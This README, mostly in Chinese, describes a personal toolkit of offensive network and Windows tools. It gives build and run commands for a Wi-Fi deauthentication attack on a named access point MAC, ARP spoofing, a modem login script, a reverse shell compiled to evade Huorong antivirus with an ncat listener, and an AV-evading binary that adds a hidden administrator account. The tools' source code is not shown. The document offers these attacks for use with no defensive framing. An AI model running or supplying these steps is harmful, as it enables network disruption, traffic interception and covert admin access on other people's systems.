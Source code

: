 ## ICU member sxsymxsyy
### deauth attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
### 2.py
用法<br> 
<code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
### metadata of movie or picture
用法 <code>python3 1.py</code><br>
步骤
<code>start ms-settings:privacy-location</code><br>
turn on location services let app camera access your location<br>
then <code>start microsoft.windows.camera:</code><br>
### gateway mac address
用法<br>
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>
### bluetooth pair
用法<br>
<code>python3 4.py</code><br>
### arp spoof
用法<br> 
<code>python3 9.py</code><br>
<code>python3 10.py</code><br>
修改10.py中的wlp3s0(网卡)<br>
local ethernet address && gateway ipv4 address<br>
### login optical modem
用法<br>
<code>gcc ./2.c -o 2</code><br>
<code>./2</code><br>
修改2.c中的psd和Content-Length
仅适用于TEWA-708G光纤调制解调器
### bypass huorong reverse shell(small version)
用法<br>
<code>ncat -lvp 19482</code><br>
<code>g++ 0.cpp -o 00 -lws2_32 -s -O2 -static -static-libgcc -static-libstdc++ -mwindows</code>
需要修改0.cpp中的RyzU1
### bypass huorong add user account 
用法<br>
<code>x86_64-w64-mingw32-g++ -o 001 1.cpp -lnetapi32 -static -static-libgcc -static-libstdc++</code><br>
<code>001.exe</code><br>
<code>net localgroup administrators DSzOO3vnAu /add</code><br>
### Enum All Process ID
<code>x86_64-w64-mingw32-g++ -o 002 2.cpp -lpsapi</code><br>
<code>002.exe</code><br>
###### 2024年12月原创于中华人民共和国浙江省宁波市
